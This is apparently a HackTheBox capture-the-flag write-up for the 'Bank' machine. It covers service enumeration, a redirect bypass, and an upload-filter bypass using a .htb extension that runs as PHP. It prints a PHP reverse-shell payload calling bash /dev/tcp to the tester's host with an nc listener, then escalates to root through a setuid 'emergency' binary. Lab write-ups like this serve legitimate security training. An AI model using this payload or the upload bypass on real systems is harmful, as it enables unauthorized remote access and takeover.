 # This is a write up for the machine Bank from HackTheBox.eu

host: 10.10.10.29

Serivce Discovery
```
nmap -A 10.10.10.29

Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid: 
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server  http://10.10.10.29 but it was just the default apache site.I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine. The default name server for all HackTheBox machines is `<name of box>.htb` so I edited the hosts file as followed

cat /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
10.10.10.29 bank.htb
```
Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v http://bank.htb you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.
```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```
I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some were 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. I noticed people were having trouble with that, Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![ScreenShot](https://raw.github.com/{laykatz}/{CTF-writeups}/{Bank-HackTheBox}/{image.png})

I added http://bank.htb/login.php to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access http://bank.htb/ and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl http://bank.htb/support.php and scroll through the html code you can see that the admin left him self a little nice note for himself.

> “<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”

I created a php shell as followed
```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```
and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. 
Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell got uploaded. Now all I had to do is set up a netcat listener to catch the shell.

`nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**Got User Flag!**

Now it's time for privilege escalation. I started by just browsing through the directories and in `/var` I found a folder named htb inside htb I found two files with execute permissions and owned by root.
```
www-data@bank:/var/htb$ ls -la 
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```
it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…
My privilege before running the exploit

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit
```
./emergency 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
and now we can get the root flag. cat /root/root.txt

**Got Root Flag!**

<a href="https://imgflip.com/gif/1zsvkv"><img src="https://i.imgflip.com/1zsvkv.gif" title="made at imgflip.com"/></a>
